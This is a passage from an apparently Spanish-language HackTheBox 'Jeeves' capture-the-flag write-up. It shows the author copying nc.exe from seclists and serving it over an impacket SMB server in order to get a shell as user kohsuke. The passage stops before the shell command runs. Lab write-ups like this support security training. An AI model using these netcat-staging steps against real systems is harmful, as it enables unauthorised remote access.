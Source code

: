 ![](/assets/images/htb-writeup-jeeves/web13.png)

## Shell as kohsuke

Bueno para ganar acceso vamos a necesitar `nc.exe` si tienes `seclists` clonado o instalado ya te viene el `nc.exe`

```python
❯ locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
❯ cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

Vamos a usar `smbserver.py` o `impacket-smbserver` para ofrecer el `nc.exe` es importante que lo ejecutes en la ruta donde se encuentre el **nc.exe**

```bash
❯ smbserver.py parrotsec . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
